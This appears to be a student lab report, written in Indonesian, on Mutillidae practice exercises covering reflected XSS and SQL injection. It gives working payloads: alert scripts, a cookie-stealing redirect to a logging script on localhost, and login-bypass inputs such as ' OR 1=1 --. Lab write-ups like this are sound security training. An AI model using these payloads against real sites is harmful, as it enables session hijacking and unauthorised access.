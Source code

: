 # Lap10_PrakKI_RivaMahyuli_478709

# MODUL 1
Cross site scripting adalah serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi.  Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah.
salah satu jenis Cross site scripting adalah Reflected. Reflected adalah serangan pada aplikasi web yang memanfaatkan celah dalam penanganan input dari pengguna. Dalam serangan ini, skrip berbahaya disisipkan ke dalam permintaan HTTP yang dikirim ke aplikasi web, kemudian disalin atau "direfleksikan" kembali ke halaman yang diberikan kepada pengguna sebagai respons. Ketika pengguna melihat halaman tersebut, skrip berbahaya dieksekusi oleh browser pengguna tanpa disadari, yang dapat mengakibatkan pencurian data sensitif, pengalihan ke situs palsu, atau aksi jahat lainnya. Serangan ini biasanya digunakan untuk mengeksploitasi kekurangan dalam validasi input dan sanitasi data yang dilakukan oleh aplikasi web

Pada praktikum ini kita menggunakan mutillidae. Mutilidae pada Kali Linux menyediakan berbagai contoh kerentanan umum pada aplikasi web, seperti serangan injeksi SQL, cross-site scripting (XSS), cross-site request forgery (CSRF), dan lainnya. Pengguna dapat menggunakan Mutilidae untuk melatih dan meningkatkan pemahaman mereka tentang keamanan aplikasi web, serta menguji teknik dan alat keamanan yang berbeda.

Perintah "<script>alert("Halo")</script>" yang dimasukkan ke dalam Hostname/IP Textbox pada Mutilidae XSS Reflected DNS berfungsi sebagai contoh serangan XSS (Cross-Site Scripting). XSS adalah jenis serangan yang memungkinkan penyerang menyisipkan skrip berbahaya ke dalam halaman web yang kemudian dieksekusi oleh browser pengguna.Dalam contoh tersebut, skrip "<script>alert("Halo")</script>" akan dieksekusi oleh browser saat halaman web yang mengandung serangan XSS tersebut dimuat. Hasilnya, akan muncul kotak dialog yang menampilkan pesan "Halo". Serangan XSS semacam ini dapat dimanfaatkan oleh penyerang untuk mencuri informasi pengguna, menyebarkan malware, atau melakukan tindakan jahat lainnya.

perintah "<script>alert(document.cookie)</script>" dieksekusi pada Mutilidae XSS, hasilnya akan tergantung pada konteks dan kondisi saat skrip dieksekusi.Secara umum, skrip tersebut akan menampilkan nilai cookie dari situs web yang sedang dikunjungi oleh pengguna yang terkena serangan XSS. Cookie adalah file teks yang berisi informasi kecil yang disimpan pada komputer pengguna oleh situs web yang dikunjungi. Informasi yang dapat ada dalam cookie termasuk sesi pengguna, preferensi pengguna, atau data lain yang relevan dengan interaksi dengan situs web

Perintah "<SCRIPT>document.location='http://localhost/cgi-bin/logit.pl?'+document.cookie</SCRIPT>" adalah contoh serangan XSS (Cross-Site Scripting) yang bertujuan untuk mengeksploitasi kerentanan XSS pada sebuah halaman web. Fungsi dari perintah tersebut adalah untuk mengalihkan atau memperbarui lokasi (URL) halaman web ke "http://localhost/cgi-bin/logit.pl?" yang diikuti oleh nilai cookie dari halaman tersebut menggunakan "document.cookie". Dengan demikian, perintah tersebut mencoba mengirimkan informasi cookie pengguna ke URL yang ditentukan dalam serangan XSS.

# MODUL 2
SQL Injection adalah serangan yang dilakukan dengan menyisipkan kode SQL berbahaya ke dalam input yang diterima oleh aplikasi web yang menggunakan database. Serangan ini bertujuan untuk memanipulasi atau mendapatkan akses tidak sah ke basis data aplikasi tersebut.

# "Single Quote Test" pada form Username di Mutilidae adalah 
salah satu metode untuk menguji kerentanan SQL Injection pada aplikasi tersebut. Pada form Username, dengan memasukkan tanda kutip tunggal (') sebagai input, aplikasi akan mencoba mengeksekusi query SQL menggunakan input tersebut.Jika aplikasi tidak memvalidasi atau menyaring input dengan benar sebelum menggunakannya dalam query SQL, tanda kutip tunggal tersebut dapat mengganggu struktur query dan memungkinkan penyerang untuk menyisipkan kode SQL berbahaya. Misalnya, input seperti "admin' OR '1'='1" dapat mengubah query menjadi "SELECT * FROM users WHERE username='admin' OR '1'='1'", yang mungkin memungkinkan penyerang untuk mengakses data pengguna tanpa otorisasi.Dengan melakukan "Single Quote Test" dan berhasil menyebabkan aplikasi menghasilkan hasil yang tidak diharapkan atau pesan error yang mengungkapkan struktur query, penyerang dapat mengetahui bahwa aplikasi rentan terhadap serangan SQL Injection.

# SQL Injection: By-Pass Password tanpa Username adalah adalah serangan yang sangat serius 

# SQL Injection: Single Quote Test On Password Field
Melakukan "Single Quote Test" pada kolom kata sandi dalam konteks SQL Injection melibatkan menyisipkan karakter tanda kutip tunggal (') sebagai input ke kolom kata sandi sebuah aplikasi untuk menguji potensi kerentanan SQL injection.Tujuan dari pengujian ini adalah untuk mengetahui apakah aplikasi dapat menangani karakter tanda kutip tunggal dengan benar dan melakukan validasi dan sanitasi input yang tepat pada kolom kata sandi. Jika aplikasi gagal menangani karakter tanda kutip tunggal dengan benar, kemungkinan besar aplikasi tersebut rentan terhadap serangan SQL injection.Dengan menyisipkan karakter tanda kutip tunggal ke kolom kata sandi, seorang penyerang dapat mencoba mengganggu sintaks SQL dari query yang mendasarinya dan potensialnya mendapatkan akses tanpa otorisasi ke basis data aplikasi. Sebagai contoh, jika aplikasi membangun query SQL tanpa melakukan sanitasi input dengan benar, input seperti " ' OR 1=1 -- " dapat memanipulasi query agar selalu bernilai benar, melewati verifikasi kata sandi.Perlu diingat bahwa melakukan pengujian SQL Injection tanpa izin yang tepat atau dalam skenario dunia nyata adalah ilegal dan tidak etis. SQL Injection adalah kerentanan keamanan yang serius, dan penting untuk mengamankan aplikasi dengan menerapkan praktik pengkodean yang aman, pengikatan parameter, dan teknik validasi input untuk mencegah serangan semacam itu.




